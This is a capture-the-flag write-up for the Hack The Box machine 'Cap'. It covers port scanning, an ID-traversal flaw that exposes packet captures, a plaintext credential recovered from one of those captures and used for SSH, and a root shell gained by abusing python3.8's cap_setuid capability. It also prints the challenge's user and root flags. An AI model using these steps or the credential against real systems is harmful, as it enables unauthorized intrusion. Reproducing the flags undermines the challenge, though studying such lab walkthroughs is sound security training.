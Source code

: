 # Cap
> Write-up author: jon-brandy

## Lesson learned:
- Exploiting python3.8 setuid.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/92cc6711-5f1a-4d7a-92d4-f836a38496c3)



## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC -Pn 10.10.10.245 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-12 10:06 PDT
Nmap scan report for cap.htb (10.10.10.245)
Host is up (0.019s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa80a9b2ca3b8869a4289e390d27d575 (RSA)
|   256 96d8f8e3e8f77136c549d59db6a4c90c (ECDSA)
|_  256 3fd0ff91eb3bf6e19f2e8ddeb3deb218 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:07:00 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:06:54 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:06:54 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=8/12%Time=64D7BC2E%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Sat,\x2012\x20Aug\x202023\x2017:06:54\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Sat,\x2
SF:012\x20Aug\x202023\x2017:06:54\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x20OP
SF:TIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20S
SF:at,\x2012\x20Aug\x202023\x2017:07:00\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.15 seconds
```

It seems the machine allows ssh login and there's a web application running. 

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85bce359-8ad2-455c-9e21-e1ff0bc6da61)


After clicked the security snapshot, I noticed there's an ID at the url.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d96dc3b-9be5-4925-a34d-47115df003dc)


Well it seems we can traverse to any network results, found the result that should be our interest at id 0.

> INTEREST (number of packets captured is larger then the others).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf964b57-90be-44b7-9ffc-2dc3138fcee8)


> WIRESHARK FILE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/39c02828-5452-403f-b9bb-2b5fccdb9a8a)


After followed through every tcp stream, found a cred at 3rd tcp stream.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5c5f493-7475-4026-8233-8c9aa812e5dc)


Let's do ssh login.

> nathan:Buck3tH4TF0RM3!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/77201f6b-f429-48e6-be32-356481f94950)


> USER FLAG

```console
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
df948242cd2265ee3b0c7979f5995c29
nathan@cap:~$ 
```

## USER FLAG

```
df948242cd2265ee3b0c7979f5995c29
```

To get the root flag, maybe this is kinda unintended, based from the challenge title, it reminds me of `getcap` for python version.

> USING GETCAP TO IDENTIFY CAPABILITIES

```console
nathan@cap:~$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The capabilities is not the default setting, `CAP_SETUID` allows the attacker to gain privesc without the `SUID` bit set. Here's how:

> PRIVILEGE ESCALATION

```console
nathan@cap:~$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/sh')
# whoami
root
# 
```

We got root!

```console
# ls /root              
root.txt  snap
# cat /root/root.txt 
a2426fa1f3878250b8b12efe990ebc4a
# 
```

## ROOT FLAG

```
a2426fa1f3878250b8b12efe990ebc4a
```
